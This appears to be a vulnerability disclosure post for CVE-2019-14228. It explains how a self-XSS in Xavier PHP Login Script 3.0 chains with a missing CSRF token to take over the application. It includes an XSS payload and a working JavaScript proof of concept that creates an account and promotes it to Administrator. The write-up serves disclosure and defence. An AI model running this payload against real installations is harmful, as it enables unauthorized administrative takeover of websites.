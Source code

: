 ```yaml
---
layout: post
title: CVE-2019-14228 
tags: [CVE, XSS, CSRF, PHP]
author: Ingredous Labs
comment: true
---
```


```
Affected Software Name: Xavier PHP Login Script & Management Panel
Affected Version: 3.0
Vulnerability: Application Takeover via Self-XSS + CSRF Chain
CVE ID: CVE-2019-14228
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14228
```

# Introduction

Xavier 3.0 PHP Login Script & Management Panel is developed by Angry Frog and could be purchased by clicking [here](https://www.angry-frog.com/php-login-script/).

As stated on their website:

> The Xavier PHP Login Script is a user management system allowing the registration and administration of users to your website. 

# Exploitation Details

Xavier PHP Login Script allows Administrators to create new users by using the Management Panel. During a blackbox assessment, it was observed that causing the registration to fail such as using a password which doesn't meet the complexity policy would cause the application to reflect the username in the error message.

Attempting to register a username which contains Javascript such as `<img src=/ onerror=alert(1)>`, would cause the Javascript to be evaluated and executed by the browser as no sanitization is being performed thhus resulting in XSS (Cross-Site-Scripting.)

Unfortunately the impact here is completely mitigated as this would be a case of Self-XSS as the attacker would be required to either social engineer the Victim Administrator into inputting this payload along with causing the form to error.

However upon further observation, it was noticed that the endpoint which is responsible for creating a new user was missing CSRF protection. As seen in the request, there is no CSRF protection in the form of a token being passed along in the request nor was the application utilizing Same-Site Cookies.

With this, an Attacker is able to craft a proof of concept and host it on their website which upon being visited by the Victim Admin will have the browser follow the request and thus create a new user. However one caveat lies here and that is when a new user is created, they are automatically placed into the "Registered Users" aka the lowest privilege group. Long story short, an attacker would be able to achieve the same impact by using the self-registration feature and registering their own account. 

In order to upgrade a user's privileges, an Admin will need to browse to the Management Panel and promote the user. The endpoint which is responsible for promoting the user utilizes CSRF protection thus making it impossible to promote the Attacker's user to Admin via the same vector (CSRF).

One last piece remains and that is the Self-XSS. With the CSRF an attacker is able to leverage the Self-XSS into being remotely exploitable in the form of Reflected XSS. As an attacker is able to execute Javascript in the context of the Victim's browser, they are now able to bypass the Same Origin Policy (SOP) which therefore would allow the attacker to bypass the CSRF protection found on the endpoint which is responsible for promoting a user's privileges by including specially crafted Javascript found in the Proof of Concept section below. 

Upon the Javascript being executed in the context of the Victim Admin's browser, it will create a new account for the attacker and promote it to Administrator which is the highest privilege offered by the application thus allowing the attacker to effectively takeover the application by chaining together Self-XSS + CSRF. 


# Proof of Concept

~~~
var root = "";
var req = new XMLHttpRequest();
var url = root + "/xavier-demo/admin/includes/adminprocess.php";
var params = "user=Hackerman&firstname=Hackerman&lastname=Hackerman&pass=P4ssw0rd&conf_pass=P4ssw0rd& email=Hackerman%40Superman.com&conf_email=Hackerman%40Superman.com&form_submission=admin_registration";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
var url2 = root + "/xavier-demo/admin/adminuseredit.php?usertoedit=Hackerman";
var regex = /delete-user" value="([^"]*?)"/g;
var req2 = new XMLHttpRequest();
req2.open("GET", url2, false);
req2.send();
var nonce = regex.exec(req2.responseText);
var nonce = nonce[1];
var url3 = root + "/xavier-demo/admin/includes/adminprocess.php";
var params2 = "delete-user="+nonce+"&form_submission=delete_user&usertoedit=Hackerman&button=Promotetoadmin";
req2.open("POST", url3, true);
req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req2.send(params2);
~~~

Upon this being executed, a new Administrator with the username of Hackerman and password of P4ssw0rd will created.